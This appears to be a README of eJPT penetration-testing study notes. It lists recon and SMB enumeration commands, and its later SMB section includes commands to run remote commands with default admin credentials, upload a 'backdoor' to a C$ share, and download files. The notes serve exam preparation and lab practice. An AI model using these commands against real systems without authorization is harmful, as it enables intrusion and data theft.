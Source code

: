 # eJPT
# All needed commands and sources for eJPT


```
fping -a -g 10.10.10.0/24 2> fping.txt
```
# Information Gathering:
## Passive Information Gathering:
https://hackersploit.org/
```
host hackersploit.org
```
```
whatweb hackersploit.org
```
```
whois hackersploit.org
```
#### /Internet Data Mining:
https://www.netcraft.com

#### /DSN Recon:
```
dnsrecon hackersploit.org
```
OR can use: https://dnsdumpster.com 

#### /Addons:
- Built with
- Wappalyzer

#### /WAF (Web Application Firewall):
```
wafw00f hackersploit.org
```
#### /Subdomain Enumeration:
```
sublist3r -d hackersploit.org -e google, yahoo
```
#### /Exploit-DB:
https://www.exploit-db.com/

#### /Email Harvesting With theHarvester:
```
theHarvester -d hackersploit.org -b google,linkedin
```
#### /Leaked Password Databases
https://haveibeenpwned.com/

## Active Information Gathering:

#### /DNS Enum:
```
dnsrecon -d hackersploit.otg
```
```
dnsenum hackersploit.otg
```
#### /DNS lookup
```
dig axfr @nsztm1.digi.ninja hackersploit.otg
```
## Footprinting & Scanning:
#### /Mapping a Network:
```
sudo arp-scan -I tap0 -g 10.10.2.0/24
```
```
fping -I tap0 -g 10.10.2.0/24 -a
```
```
fping -I tap0 -g 10.10.2.0/24 -a 2>/dev/null
```
## Enumeration:
#### /SMB Windows Discover & Mount:
```
nmap -T4 10.10.20.0/20 --open
```
```
nmap -p 445 --script smb-protocols 10.10.20.2
```
```
nmap -p 445 --script smb-security-mode 10.10.20.2
```
```
nmap -p 445 --script smb-enum-sessions 10.10.20.2
```
```
nmap -p 445 --script smb-enum-sessions --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-shares 10.10.20.2
```
```
nmap -p 445 --script smb-enum-shares --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-users --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-stats --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-domains --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-groups --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-services --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-protocols 10.10.20.2
```
```
smbmap -u guest -p "" -d . -H 10.10.20.2
```
```
smbmap -u admin -p admin -d . -H 10.10.20.2
```
```
smbmap -u admin -p admin -x . -H 10.10.20.2 -x 'ipconfig'
```
```
smbmap -H 10.10.20.2 -u admin -p 'admin' -r 'C$'
```
Upload Backdoor:
```
smbmap -H 10.10.20.2 -u admin -p 'admin' --upload '/root/backdoor' 'C$\backdoor'
```
Download file:
```
smbmap -H 10.10.20.2 -u admin -p 'admin' --download 'C$\flag.txt'
```
```
nmap 10.10.20.3 -p 445 --script smb-os-discovery
```
Metasploit:
```
use auxiliary/scanner/smb/smb_version
```
```
use auxiliary/scanner/smb/smb2
```
```
use auxiliary/scanner/smb/smb_enumshares
```
nmblookup:
```
nmblookup -A 10.10.20.2
```
smbclient:
```
smbclient -L 10.10.20.3 -N
```
rpcclient:
```
rpcclient -U "" 10.10.20.3
```
enum4linux:
```
enum4linux -o 10.10.20.3
```



















